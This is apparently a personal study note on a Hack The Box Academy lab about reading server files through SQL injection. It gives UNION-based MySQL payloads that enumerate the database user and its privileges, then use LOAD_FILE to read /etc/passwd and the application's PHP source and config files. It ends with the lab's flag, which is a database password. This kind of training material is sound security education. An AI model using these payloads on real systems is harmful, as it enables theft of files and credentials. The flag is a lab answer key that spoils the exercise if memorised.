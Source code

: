 ﻿---
sticker: lucide//database
---
In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

---

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in`MySQL`, the DB user must have the`FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

#### DB User

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our`UNION` injection payload will be as follows:


```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is`root`:


![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

#### User Privileges

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:


```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:


```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add`WHERE user="root"` to only show privileges for our current user`root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

The query returns`Y`, which means`YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:


```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add`WHERE grantee="'root'@'localhost'"` to only show our current user`root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

 ![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

We see that the`FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

---

## LOAD_FILE

Now that we know we have enough privileges to read local system files, let us do that using the`LOAD_FILE()` function. The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the`/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a`UNION` injection, we can use the above query:


```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

---

## Another Example

We know that the current page is`search.php`. The default Apache webroot is`/var/www/html`. Let us try reading the source code of the file at`/var/www/html/search.php`.


```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting`[Ctrl + U]`.

![load_file_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

# Question
---

![Pasted image 20250203143251.png](../../../../IMAGES/Pasted%20image%2020250203143251.png)

We can use this payload: 

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Once the page has rendered, check source code using `CTRL+U`, we can then use `f3` and search for include:

![Pasted image 20250203143345.png](../../../../IMAGES/Pasted%20image%2020250203143345.png)

We can see the following, now, we can read the `config.php` file:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

We'll see the following:

![Pasted image 20250203143450.png](../../../../IMAGES/Pasted%20image%2020250203143450.png)

Answer is `dB_pAssw0rd_iS_flag!`
